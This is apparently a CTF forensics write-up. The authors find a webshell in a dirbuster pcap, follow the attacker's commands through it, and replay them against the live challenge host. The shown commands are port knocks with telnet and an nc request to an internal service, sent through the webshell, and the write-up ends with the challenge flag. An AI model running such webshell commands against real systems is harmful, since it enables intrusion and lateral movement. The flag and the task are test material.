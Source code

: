# notor (forensics, 372p, 19 solved)

## Description

```
How did the attacker gain access to our secure infrastructure? Wink Wink to the attached pcap.

Flag format: CTF{sha256}

Target: 138.68.93.187:1234
```

In the task we get a 270MB pcap file (not attached).
We also get a remote endpoint (important, we missed this initially!).

## Task analysis

The pcap seems to contain basically a dirbuster run against some target.
We suspect the idea is that attacker `found something` and exploited it.

### Export HTTP objects

A nice trick we can use here is wireshark's `export HTTP objects`.
The idea is that most of the 404 responses from the target will look identical, and we're looking for something that stands out.

This way we quickly find a much `bigger` object: [webshell](shelladsasdadsasd.html.php)

### Follow the attack

Now that we have this, we can find the requests to this webshell and follow what attacker used:

```
POST /shelladsasdadsasd.html.php?feature=shell HTTP/1.1
Host: h:1234
Connection: keep-alive
Content-Length: 328
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
DNT: 1
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://h:1234
Referer: http://h:1234/shelladsasdadsasd.html.php
Accept-Encoding: gzip, deflate
Accept-Language: ro-RO,ro;q=0.9,en-US;q=0.8,en;q=0.7,it;q=0.6

cmd=telnet%2010.5.0.6%2010001%3Btelnet%2010.5.0.6%2010002%3Btelnet%2010.5.0.6%2010003%3Btelnet%2010.5.0.6%205000%3Btelnet%2010.5.0.6%2010008%3Btelnet%2010.5.0.6%205000%3Btelnet%2010.5.0.6%206000%3Btelnet%2010.5.0.6%2019999%3B%20echo%20'GET%20%2F%20HTTP%2F1.1%5Cr%5Cn%5Cr%5Cn'%20%7C%20nc%2010.5.0.6%205000&cwd=%2Fvar%2Fwww%2FhtmlHTTP/1.1 200 OK
Date: Tue, 01 Dec 2020 22:24:24 GMT
Server: Apache
Content-Length: 258
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{"stdout":["Trying 10.5.0.6...","Trying 10.5.0.6...","Trying 10.5.0.6...","Trying 10.5.0.6...","Trying 10.5.0.6...","Trying 10.5.0.6...","Trying 10.5.0.6...","Trying 10.5.0.6...","(UNKNOWN) [10.5.0.6] 5000 (?) : Connection refused"],"cwd":"\/var\/www\/html"}POST /shelladsasdadsasd.html.php?feature=shell HTTP/1.1
```

While this attempt failed, we can see that there is some `port knocking` using `telnet` and then attacker tries to get something from `http://10.5.0.6:5000`

If we look for other responses from this host/port we find:

```
GET / HTTP/1.1


HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 69
Server: Werkzeug/1.0.1 Python/2.7.12
Date: Tue, 01 Dec 2020 22:25:13 GMT
```

Length 69 seems like a flag format, but the data are not in the pcap!

## Replay attack

Notice that we know the remote endpoint.
We can, therefore, access the very same webshell and perform the same attack!

The trick is the telnet knocks sent by attacker are not valid.
But we can just look at the pcap before the successful attempt, and check which ports were touched:

```
10001
10002
10003
22
445
```

So we use the webshell to run:

```
telnet 10.5.0.6 10001;telnet 10.5.0.6 10002;telnet 10.5.0.6 10003; telnet 10.5.0.6 22; telnet 10.5.0.6 445; echo 'GET / HTTP/1.1\r\n\r\n' | nc 10.5.0.6 5000
```

And get back:

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 69
Server: Werkzeug/1.0.1 Python/2.7.12
Date: Mon, 07 Dec 2020 19:39:58 GMT

ctf{4fde84cc72b033f0834f1181c4e1dc77a82a595c3652c8b9d02b28b8e1b62124}
```
